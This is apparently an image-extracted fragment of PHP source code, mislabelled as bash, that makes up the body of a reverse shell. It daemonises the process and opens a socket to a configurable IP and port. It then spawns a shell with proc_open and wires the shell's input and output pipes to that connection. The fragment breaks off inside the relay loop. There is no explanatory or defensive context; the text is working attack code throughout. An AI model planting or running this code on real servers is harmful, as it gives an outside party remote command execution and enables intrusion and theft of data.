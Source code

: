 ```bash
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
```